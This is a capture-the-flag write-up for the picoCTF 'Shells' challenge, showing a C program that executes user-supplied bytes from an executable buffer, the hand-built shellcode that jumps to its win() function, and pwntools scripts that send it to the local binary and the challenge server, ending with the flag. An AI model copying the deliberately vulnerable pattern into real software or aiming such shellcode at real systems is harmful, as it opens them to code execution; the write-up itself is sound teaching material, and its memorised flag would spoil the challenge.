 # Shells -- PicoCTF

This is a binary exploitation challenge worth 70 points.

We are given a binary and a source file, as well as the address (shell2017.picoctf.com) and port number (17533) of the server.  
Let's open the C file:

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
~~~

Now we know that there is a win function, and the program is going to execute code we give it.  
Let's run the program:

<script type="text/javascript" src="https://asciinema.org/a/2grn99obqdtjkdpowvnp7ic36.js" id="asciicast-2grn99obqdtjkdpowvnp7ic36" async></script>

We can see that it asks for 10 bytes, and if you give it anything, it segfaults. We know from the source that it is trying to execute whatever you give it, and I didn't give it executable bytes. 

Let's try to create some executable code.  
We kow that we have 10 bytes to work with, and we know we have a nice, ready-made win function that will give us what we want. Let's open it up in Binary Ninja and find the address of the win function.

![Binja Shells](http://i.imgur.com/7GddlQ5.png)

We can see that the win function starts at `0x08048540`  

Now let's design some code.  
My first thought was to write  
```
call	0x08048540
```
or ```jmp   0x08048540```

However, with research and many failed attempts, I realized that there is no good way to call or jmp to an absolute address directly using opcodes. This is because of the way memory is segmented. When attempting to call or jmp to an absolute address, you also have to give a segment number. However, there isn't a great way to find the segment number unless if you already defined the segment number. Therefore, we need a different solution.

I remembered that most past challenges that I have completed required a buffer overflow to change the return address, and we know that the return address should be `0x08048540`, and that needs to be on the top of the stack, so we can push `0x08048540` on the stack and return to it.  
The Assembly:

```
push	0x08048540
ret
```

We can use an online assembler to get the opcodes. I used [Shell Storm's Assembler/Disassembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) 
`"\x68\x40\x85\x04\x08\xc3"`

Now we can craft a python script to test against the local binary. First, we need to create a flag.txt with any sample text. I just used `flag` Then we can write the script:

```python
# solve.py

from pwn import *

p = process('./shells')

sc = '\x68\x40\x85\x04\x08\xc3'
p.recvuntil(':\n')
p.send(sc)
flag = p.recvline()
print flag

p.close()
```

Let's run the script.

<script type="text/javascript" src="https://asciinema.org/a/bf75ikwceh1ru8c4cg16y1ejf.js" id="asciicast-bf75ikwceh1ru8c4cg16y1ejf" async></script>

As you can see, the script ran shells and sent the opcodes, and it outputted the contents of flag.txt. Now we can modify the script to work on the server:

```python
# solve.py

from pwn import *

p = remote('shell2017.picoctf.com', 17533)

sc = '\x68\x40\x85\x04\x08\xc3'
p.recvuntil(':\n')
p.send(sc)
flag = p.recvline()
print flag

p.close()
```

Now let's run it:

<script type="text/javascript" src="https://asciinema.org/a/boeus0zz511mm26lq723lakc5.js" id="asciicast-boeus0zz511mm26lq723lakc5" async></script>

As you can see, we opened a connection to the server, and sent the opcodes, and it outputted the flag: `4350d27b024f8597f10b98f164f0fc43`

And we are done!